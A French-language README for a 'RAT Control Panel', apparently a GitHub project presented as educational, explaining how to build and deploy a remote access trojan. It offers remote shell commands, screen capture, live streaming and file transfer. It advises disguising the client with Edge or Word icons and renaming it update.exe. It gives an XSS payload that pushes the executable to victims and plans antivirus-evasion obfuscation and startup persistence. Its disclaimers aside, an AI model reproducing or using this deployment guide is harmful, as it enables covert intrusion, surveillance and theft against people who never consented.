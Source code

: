 🐀 RAT Control Panel

Bienvenue dans RAT Control Panel, un outil éducatif de Remote Administration Tool (RAT) conçu pour les environnements de test de sécurité, les compétitions CTF, ou les laboratoires d'apprentissage. Ce projet fournit un serveur, un client, et une interface graphique intuitive pour exécuter des commandes à distance, capturer des écrans, diffuser en temps réel, et plus encore, avec une touche de discrétion grâce à la personnalisation des icônes.

⚠️ Avertissement : Cet outil est destiné à un usage éthique et autorisé uniquement. L'utilisation non autorisée est illégale. Veillez à respecter les lois et à obtenir un consentement explicite avant tout déploiement.


✨ Fonctionnalités

Exécution de commandes à distance : Lancez des commandes shell sur le client (ex. whoami, dir).
Capture d'écran : Prenez des instantanés de l'écran du client, enregistrés en JPEG.
Streaming en temps réel : Diffusez l'écran du client avec un faible décalage (10 FPS).
Transfert de fichiers : Téléchargez ou envoyez des fichiers entre le serveur et le client.
Chiffrement sécurisé : Toutes les communications sont chiffrées avec cryptography (Fernet).
Interface graphique : Une UI conviviale (tkinter) pour démarrer le serveur, configurer l'IP, et compiler le client.
Personnalisation discrète : Compilez le client avec une icône personnalisée (à partir de .png) pour plus de discrétion.
Connexion automatique : Le client se connecte directement au serveur sans interaction utilisateur.


🛠️ Prérequis
Avant de commencer, assurez-vous d'avoir :



Prérequis
Description



Python 3.8+
Téléchargez depuis python.org.


Système d'exploitation
Windows (client et serveur nécessitent un environnement graphique).


Réseau
Port 4444 ouvert sur le serveur, avec port forwarding si nécessaire.


Image .png
Une icône (32x32 ou 64x64 pixels) pour personnaliser l'exécutable du client.



📦 Installation
Suivez ces étapes pour configurer le projet :

Cloner le projet (ou téléchargez les fichiers) :
git clone https://github.com/votre-repo/rat-control-panel.git
cd rat-control-panel


Installer les dépendances :Exécutez la commande suivante pour installer toutes les bibliothèques nécessaires :
pip install Pillow opencv-python cryptography pyinstaller


💡 tkinter est inclus avec Python. Si vous rencontrez des erreurs, vérifiez votre installation Python.


Préparer les fichiers :

Placez ui.py, server.py, et client.py dans le même dossier.
Obtenez une image .png pour l'icône (par exemple, téléchargez depuis IconArchive ou créez-en une avec GIMP).


Configurer le réseau :

Ouvrez le port 4444 sur le serveur :netsh advfirewall firewall add rule name="RAT" dir=in action=allow protocol=TCP localport=4444


Si vous utilisez une IP publique, configurez le port forwarding sur votre routeur.




🚀 Utilisation
1. Lancer l'interface graphique
Exécutez l'interface pour configurer et contrôler le RAT :
python ui.py

L'interface affiche :

Un champ pour entrer l'adresse IP du serveur.
Un bouton pour démarrer le serveur.
Un bouton pour importer une icône (.png).
Un bouton pour compiler le client.
Une zone de logs pour suivre les actions.

2. Démarrer le serveur

Cliquez sur "Démarrer le serveur" dans l'interface.
Les logs affichent :Serveur démarré sur 0.0.0.0:4444
Adresses IP locales : 192.168.1.100, ...


Notez l'IP affichée (par exemple, 192.168.1.100) pour l'étape suivante.

3. Configurer l'adresse IP

Dans le champ Adresse IP du serveur, entrez l'IP notée (par exemple, 192.168.1.100).
Si vous utilisez une IP publique, assurez-vous que le port 4444 est accessible.

4. Importer une icône

Cliquez sur "Importer une icône (.png)".
Sélectionnez un fichier .png (idéalement 32x32 ou 64x64 pixels).
L'interface convertit automatiquement le .png en .ico et affiche :Icône importée et convertie : edge.png -> temp_icon.ico




💡 Utilisez une icône légitime (par exemple, Microsoft Edge, Word) pour rendre l'exécutable discret.

5. Compiler le client

Cliquez sur "Compiler le client".
L'interface :
Met à jour client.py avec l'IP saisie.
Compile client.py en dist/client.exe avec PyInstaller, en utilisant l'icône importée.
Supprime le fichier .ico temporaire.


Les logs confirment :client.py modifié avec SERVER_HOST = 192.168.1.100
Compilation réussie. Exécutable généré dans dist/client.exe



6. Tester le client

Copiez dist/client.exe sur un PC client (Windows avec interface graphique).
Exécutez :client.exe


L'exécutable affiche l'icône personnalisée et se connecte automatiquement au serveur.
Sur le serveur, entrez des commandes dans la console (ouverte automatiquement) :whoami
screenshot
stream


screenshot : Enregistre received_screenshot.jpg.
stream : Affiche l'écran du client en temps réel (appuyez sur q pour arrêter).



7. Déploiement via XSS (optionnel)
Pour distribuer client.exe via une vulnérabilité XSS (dans un cadre éthique) :

Hébergez client.exe :python -m http.server 8080


Injectez via XSS :<script>
    window.location = 'http://votre-serveur:8080/client.exe';
</script>


L'icône personnalisée rend l'exécutable plus convaincant (par exemple, renommez-le update.exe).


⚠️ Restez dans un cadre légal (CTF, bug bounty). L'utilisation non autorisée est illégale.


📋 Exemple de logs dans l'UI
Thu May 15 17:00:00 2025: Démarrage du serveur...
Thu May 15 17:00:01 2025: Serveur démarré sur 0.0.0.0:4444
Thu May 15 17:00:05 2025: Connexion de 192.168.1.98:54321
Thu May 15 17:00:10 2025: Icône importée et convertie : edge.png -> temp_icon.ico
Thu May 15 17:00:15 2025: client.py modifié avec SERVER_HOST = 192.168.1.100
Thu May 15 17:00:20 2025: Compilation réussie. Exécutable généré dans dist/client.exe


🐞 Dépannage



Problème
Solution



Serveur ne démarre pas
Vérifiez que server.py est dans le dossier. Installez les dépendances : pip install Pillow opencv-python cryptography.


Client ne se connecte pas
Vérifiez l'IP saisie. Testez : ping 192.168.1.100 et nc -zv 192.168.1.100 4444.


Icône non appliquée
Assurez-vous d'importer un .png valide. Testez : python -c "from PIL import Image; Image.open('edge.png').show()".


Compilation échoue
Installez PyInstaller : pip install pyinstaller. Vérifiez les logs pour l'erreur.


Streaming/screenshot échoue
Exécutez le client sur un bureau Windows. Testez : python -c "from PIL import ImageGrab; ImageGrab.grab()".



⚖️ Considérations éthiques

Usage autorisé uniquement : Utilisez ce RAT dans des environnements contrôlés (CTF, labs de sécurité).
Légalité : Déployer un RAT sans consentement est illégal. Obtenez toujours une autorisation explicite.
Responsabilité : Signalez les vulnérabilités XSS de manière éthique via des programmes de bug bounty.


🌟 Améliorations futures

Ajouter un bouton pour arrêter le serveur depuis l'UI.
Implémenter l'obfuscation du client avec pyarmor pour éviter la détection antivirus.
Ajouter la persistance (exécution au démarrage) dans l'exécutable client.
Supporter d'autres formats d'image (.jpg, .bmp) pour les icônes.


🙏 Crédits
Développé avec ❤️ pour l'apprentissage de la cybersécurité. Merci à la communauté open-source pour les bibliothèques utilisées :

Pillow
OpenCV
Cryptography
PyInstaller


📧 Pour toute question ou suggestion, ouvrez une issue sur le dépôt GitHub !

